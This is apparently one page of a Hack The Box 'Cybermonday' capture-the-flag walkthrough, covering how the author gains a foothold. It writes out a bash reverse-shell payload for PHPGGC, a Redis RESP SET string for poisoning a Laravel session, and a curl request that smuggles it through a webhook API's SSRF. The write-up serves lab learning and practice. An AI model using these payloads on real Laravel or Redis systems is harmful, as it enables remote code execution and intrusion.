 # HTB Cybermonday - Gaining a Foothold

[Initial Enumeration](1-initial-enumeration)
[Webhook API Admin Access](2-webhook-api-admin)
[Obtaining More Info](3-obtaining-more-info)
[**Gaining a Foothold**](4-gaining-a-foothold)
[Where to Now?](5-where-to-now)
[Reading the Source](6-reading-the-source)
[Composing Root Access](7-composing-root-access)

Now that we have a possible attack vector we need to figure out how to implement it. In order to poison our Laravel session we need to know what the key for it is called in the Redis server. Laravel stores that information in a cookie that's sent to the client, however we can't just read it as it's encrypted. Lucky for us, thanks to the `.env` file, we have the key to that encryption. There are a number of scripts around to perform this decryption for us. I used the one from [hacktricks here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel#decrypt-cookie). Once you have the decryption script, set the app_key to the one in the `.env` file. Also take note of the `REDIS_PREFIX` value while you're there as we'll need this later.

Before we poison our session we'll need something to poison it with. First, download [PHPGGC](https://github.com/ambionics/phpggc) if you don't already have it. Next we need to prepare a payload to use. PHPGGC has a number of RCE exploits we could use, but some will and won't work depending on the version of Laravel. If one doesn't work, try the next. For the function and parameter we provide `phpggc` we'll use:
```shell
$ exec "/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/<your port> 0>&1'"
```

Next we need a valid session cookie. Go back to the Cybermonday shopping site and log in again if you've been logged out. Open up the dev tools for your browser and copy the cookie value for `cybermonday_session`. The value is URL encoded to make sure to decode it before using it in the script we downloaded before. The decrypted value will be formatted as `<User Id>|<Session Id><Buffer Bytes>`. Copy the session id down for use in the next step.

Now we have our payload and session id, we need to prepare them in both the RESP protocol format, and then escape that string for use in our JSON. For passing a command, your RESP formatted string should look like:
```
*3\r\n$3\r\nSET\r\n$56\r\nlaravel_session:<your session id>\r\n$<payload length before JSON escape>\r\n<payload>\r\n
```

So whats going on here? Well commands are passed to RESP as an array. We're passing 3 arguments so we start our string with `*3` with `*` specifying that this is an array. Each data type identifier or piece of data is ended with `\r\n`. Next we specify the command we want to use. Our command `SET` is 3 bytes long so we specify the length as `$3` with `$` specifying that this is a "bulk string". Next is our actual command `SET`, and what follows is the same procedure with our `key` and `value` arguments for the full command. Next we escape the string so that it's passed to the webhook server properly, and we send our `curl` request:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> \
-H 'x-access-token: <your token>' \
-H 'Content-Type: application/json' \
-d '{"url": "http://redis:6379", "method": "<your prepared resp string>"}'
```

Make sure you've started your `netcat` listener, and then refresh the Cybermonday page. If all goes well, you'll have a reverse shell. If you get a deserialization error in Laravel that starts at byte 0, there was probably an issue in your formatting when sending the request. If the deserialization error starts at a later byte, or you get a different error, try a different `phpggc` exploit.

Next: [Where to Now?](5-where-to-now)